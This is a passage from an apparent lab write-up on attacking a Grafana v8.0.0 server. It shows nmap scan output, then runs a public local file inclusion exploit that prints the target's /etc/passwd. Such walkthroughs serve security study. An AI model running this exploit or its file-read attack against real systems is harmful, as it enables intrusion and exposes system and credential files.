 ```bash
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Fri, 26 Jan 2024 18:56:35 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 91.57 seconds
```


## Enumerate HTTP (Port 3000)
Grafana seems to be hosted on port 3000.
![Pasted image 20240714125134.png](/images/Pasted image 20240714125134.png){: .normal }


In the bottom of the page we find a version of v8.0.0.
![Pasted image 20240714125130.png](/images/Pasted image 20240714125130.png){: .normal }


Whilst looking for exploits we find the [following](https://www.exploit-db.com/exploits/50581) PoC which gives us LFI.
```bash
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py -H <http://10.10.88.246:3000>
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```
